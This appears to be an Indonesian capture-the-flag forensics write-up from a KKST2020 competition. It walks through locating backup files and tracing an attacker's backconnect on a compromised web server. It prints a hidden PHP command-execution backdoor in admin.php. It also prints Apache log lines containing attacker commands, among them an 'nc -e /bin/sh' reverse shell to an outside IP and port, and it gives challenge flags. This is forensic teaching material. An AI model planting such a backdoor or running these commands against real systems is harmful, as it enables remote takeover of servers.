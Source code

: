 ```sh
-rw-r--r--  1 root root        42 Aug 26 03:22 apt.extended_states.3.gz
-rw-r--r--  1 root root       437 Aug 26 03:17 dpkg.diversions.0
-rw-r--r--  1 root root       202 Aug 26 03:17 dpkg.diversions.1.gz
-rw-r--r--  1 root root       202 Aug 26 03:17 dpkg.diversions.2.gz
-rw-r--r--  1 root root       129 Aug  6 22:39 dpkg.statoverride.1.gz
-rw-r--r--  1 root root       129 Aug  6 22:39 dpkg.statoverride.2.gz
```



Pada file `bu.zip` idenya kita harus melakukan `extract` dan mulai melakukan `md5` compare dengan `md5` dari `/var/www/html` yang sekarang. Caranya ini sedikit rumit ini, karena kita perlu mencari file backups-nya saja. 



Flag = **KKST2020{koneksi.php}**



### Ke mana dia kembali?

Fokus *challenge* ini adalah untuk menemukan ip:port yang digunakan attacker untuk melakukan backconnect. Dan yang menjadi highlight untuk *challenge* ini adalah alat Tradisional untuk backconnect. Alat yang dimaksud bisa berupa `/bin/tcp`, `nc` atau bahkan bahasa pemrogramman. Proses identifikasi ini akan dipermudah jika tiap-tiap peserta telah menganalisa tiap-tiap file yang berada pada `/var/www/html/admin` terdapat sebuah `backdoor` sebagai berikut.



```sh
root@kkst2020:/var/www/html/admin# ls -lat
total 16
drwxr-xr-x 6 root root 4096 Nov  9 05:02 ..
drwxrwxrwx 2 root root 4096 Nov  9 04:59 .
-rwxr-xr-x 1 root root  132 Nov  9 04:58 admin.php
-rwxr-xr-x 1 root root  670 Nov  9 04:57 adminLogin.php
root@kkst2020:/var/www/html/admin# cat admin.php
<?php
session_start();
$nama = $this->$_SESSION->$data['nama'];`$_GET[0]`;

echo $nama;
?>
<h1>selamat datang di halaman admin</h1>
root@kkst2020:/var/www/html/admin#
```



Terlihat pada file `admin.php` terdapat sebuah hidden backdoor. Maka kita tinggal melakukan pengecekan pada log apache terhadap file `admin.php`



```sh
root@kkst2020:/var/www/html/admin# grep -e 'admin.php?0=' /var/log/apache2/access.log
192.168.77.41 - - [17/Nov/2020:01:40:16 +0000] "GET /admin/admin.php?0=id HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:01:40:23 +0000] "GET /admin/admin.php?0=echo%201; HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:01:43:10 +0000] "GET /admin/admin.php?0=ls%20-la%20%3E%20asd HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:01:43:20 +0000] "GET /admin/admin.php?0=ls%20-la%20%3E%20asd HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:01:49:10 +0000] "GET /admin/admin.php?0=nc%20-e%20/bin/sh%20157.1.12.12%201399 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
192.168.77.41 - - [17/Nov/2020:02:15:29 +0000] "GET /admin/admin.php?0=nc%20-lvp%201330 HTTP/1.1" 500 295 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"
```